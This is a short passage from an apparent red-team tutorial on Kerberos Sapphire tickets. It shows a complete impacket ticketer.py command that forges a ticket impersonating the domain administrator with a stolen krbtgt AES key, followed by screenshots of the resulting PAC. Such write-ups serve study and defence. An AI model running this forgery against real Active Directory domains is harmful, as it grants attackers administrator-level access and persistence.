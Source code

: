 ## Practical Example

We are at the post phase and we have The Kerberos (krbtgt) Keys.

Using *ticketer* like above we request a Sapphire Ticket.

```bash
python3 ./ticketer.py -request -impersonate 'administrator' -domain 'contoso.local' -user 'emp.1' -password '1234' -aesKey '0c83d045c7428f2fee556ba0bbdf0109b3e39d38104b415fd91def363910b4b2' -domain-sid 'S-1-5-21-877380313-3945528518-819751691' 'ignored'
```

[![P1](../../assets/img/diamond-sapphire-tickets/prac1.png)](../../assets/img/diamond-sapphire-tickets/prac1.png){:target="\_blank"}

If we take a look at the ticket we can see that we have had a ticket that has the PAC of the request to impersonate, Administrator.

[![P2-1](../../assets/img/diamond-sapphire-tickets/prac2_1.png)](../../assets/img/diamond-sapphire-tickets/prac2_1.png){:target="\_blank"}
